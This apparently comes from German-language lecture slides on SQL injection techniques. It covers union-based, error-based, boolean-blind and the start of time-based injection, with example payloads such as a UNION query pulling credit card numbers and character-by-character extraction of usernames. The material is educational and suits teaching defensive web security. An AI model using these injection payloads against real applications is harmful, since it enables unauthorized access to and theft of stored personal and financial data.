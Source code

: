 * Folgende Eingabe fuer id:

```
  1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

## Union-Based SQLi: Ergebnis:

``` sql
SELECT Name, Phone, Address FROM Users WHERE Id=1
UNION ALL
SELECT creditCardNumber,1,1 FROM CreditCardTable
```

## Error-based SQLi

Eine Datenbank-Fehlermeldung wird als Rückkanal verwendet

``` sql
select * from table where id = (select username, password from users);

# fehlermeldung:
Cannot compare id (integer) with ["root", "password"]
```

## Beispiel: Boolean-based blind SQLi

* URL: http://snikt.net/show_product?id=1
* Query: select * from product where id = 1;

## Oracle wird festgestellt:

``` sql
# id: "1 or 1=0" -> Produkt wird angezeigt
select * from products where id=1 or 1=0;

# id: "1 and 1=0" -> Kein Produkt wird angezeigt
select * from products where id=1 and 1=0;
```

## Beispiel: auslesen der ersten Stelle eines Benutzernamens

``` sql
SELECT field1, field2, field3
FROM Users
WHERE Id=1 AND ASCII(SUBSTRING(username,1,1))=97
```

## Bespiel: time-based SQLi

* Kein Antwortkanal verfügbar
* Eigentlich ein Side-Channel Attack über Timing
* Operation: http://www.example.com/product.php?id=10
